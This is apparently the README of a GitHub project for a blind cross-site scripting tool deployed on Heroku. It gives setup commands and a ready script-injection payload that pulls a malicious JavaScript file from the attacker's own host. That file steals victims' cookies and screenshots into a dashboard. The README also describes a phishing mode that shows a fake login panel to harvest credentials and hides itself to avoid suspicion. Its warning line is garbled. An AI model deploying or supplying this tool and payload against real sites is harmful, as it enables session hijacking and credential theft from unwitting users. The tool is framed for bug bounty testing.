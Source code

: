 # vaya-ciego-nen
**vaya-ciego-nen** is a tool that allows you to create your own webapp to detect, manage and exploit **Blind Cross-site scripting (XSS)** vulnerabilities.

![Dashboard](/static/img/dash.png)

![More Info](/static/img/info.png)

## How does it work?
This webapp serves a malicious JavaScript payload that will execute if a XSS is present, retrieving cookies, a screenshot and more info. This info can be seen in a dashboard where you're able to manage all the triggers, which are stored in a PostgreSQL database.

## Usage
The project is oriented to be deployed in a **free** [heroku](heroku.com) instance, but the changes are minimum if you want to use the code in your own server.

First, you'll need to install [`heroku-cli`](https://devcenter.heroku.com/articles/heroku-cli) if you don't have it already. Then:
```
$ git clone https://github.com/hipotermia/vaya-ciego-nen
$ cd vaya-ciego-nen
$ heroku login
$ heroku create name_of_your_app
$ heroku addons:create heroku-postgresql:hobby-dev
```
Modify the file `config.py` with a username/password of your choice (used to access your dashboard), change the domain for your *name_of_your_app.herokuapp.com*, and finally:
```
$ git add .
$ git commit -m "letsgo"
$ git push heroku master
```
That's it! Now you have your own dashboard in *name_of_your_app.herokuapp.com/dashboard* and you just have to use your favorite payload like `"><script src="https://name_of_your_app.herokuapp.com"></script>` to find blind XSS.

## Not sure of which input triggered your payload?
Create different payloads for each input using `name_of_your_app.herokuapp.com/?extra` modifying the *extra* param and this will be visible on your dashboard to recognize it. You can use `/?email_input` for an email input for example.

## HttpOnly on the session cookie?
No worries, use `name_of_your_app.herokuapp.com/phish` in your payload and instead of collecting info, a fake login panel will appear in the victim's browser and if he enters its credentials, they're going to be sent to your dashboard! A cookie will be set on the victim's browser to control the login panel just appears once to avoid suspicion.
> **Note:** Most bugbounties don't allow phishing attacks on their programs. Don't do this if you're 100% sure you're allowed.

![Login](/static/img/login.png)
